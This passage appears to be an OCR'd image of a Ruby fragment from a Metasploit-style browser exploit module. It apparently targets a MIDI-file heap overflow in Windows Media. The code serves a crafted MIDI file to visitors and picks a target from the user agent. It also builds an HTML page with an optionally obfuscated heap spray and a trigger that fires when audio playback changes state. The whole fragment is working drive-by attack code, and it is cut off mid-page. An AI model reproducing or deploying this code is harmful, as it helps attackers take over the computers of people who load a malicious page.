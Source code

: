 ```ruby
		m << [tc.length].pack('N')
		m << tc

		midi_name = "test_case.mid"

		return midi_name, m
	end

	def on_request_uri(cli, request)  #构造请求

		if request.uri =~ /\.mid$/i
			print_status("Sending midi file to #{cli.peerhost}:#{cli.peerport}...")
			send_response(cli, @midi, {'Content-Type'=>'application/octet-strem'})
			return
		end

		#Set default target
		my_target = target

		#If user chooses automatic target, we choose one based on user agent
		if my_target.name =~ /Automatic/
			my_target = get_target(request)
			if my_target.nil?
				send_not_found(cli)
				print_error("#{cli.peerhost}:#{cli.peerport} Unknown user-agent")
				return
			end
			vprint_status("Target selected: #{my_target.name}")
		end

		midi_uri = ('/' == get_resource[-1,1]) ? get_resource[0, get_resource.length-1] : get_resource
		midi_uri << "/#{@m_name}"

		spray = build_spray(my_target)

		if datastore['OBFUSCATE']
			spray = ::Rex::Exploitation::JSObfu.new(spray)
			spray.obfuscate
		end

		trigger = build_trigger(my_target)
		trigger_fn = "trigger"

		if datastore['OBFUSCATE']
			trigger = ::Rex::Exploitation::JSObfu.new(trigger)
			trigger.obfuscate
			trigger_fn = find_trigger_fn(trigger.to_s)
		end

		html = %Q|
		<html>
		<head>
		<script language='javascript'>
			#{spray}
		</script>
		<script language='javascript'>
			#{trigger}
		</script>
		<script for=audio event=PlayStateChange(oldState,newState)>
			if (oldState == 3 && newState == 0) {
				#{trigger_fn}();
			}
```
